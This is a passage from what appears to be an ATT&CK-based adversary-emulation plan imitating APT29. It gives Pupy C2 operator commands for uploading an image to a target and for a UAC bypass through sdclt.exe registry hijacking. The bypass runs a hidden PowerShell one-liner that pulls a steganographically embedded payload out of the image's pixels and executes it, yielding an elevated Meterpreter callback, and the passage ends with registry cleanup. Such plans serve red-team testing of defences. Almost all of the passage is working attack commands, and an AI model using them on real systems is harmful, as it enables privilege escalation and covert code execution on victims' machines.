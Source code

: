 From Pupy, upload [monkey.png](../../Resources/Scenario_1/monkey.png) to target:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`
[pupy] > `shell`
[pupy CMD] > `powershell`

##### 3.B - Abuse Elevation Control Mechanism: Bypass User Access Control ([T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/))

[pupy (PowerShell)] >

```powershell
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```

**Paste the following 1-liner when prompted for value:**

```powershell
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] >

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```

**When prompted for value, press: [Enter]**

[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `%windir%\system32\sdclt.exe`
[pupy CMD] > `powershell`

You should receive a high integrity Meterpreter callback.

#### 3.C - Modify Registry ([T1112](https://attack.mitre.org/techniques/T1112/))

[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`
[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `exit`

#### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft

* CosmicDuke has occasionally embedded other malware components that are written to disk and executed.<sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf) </sup>
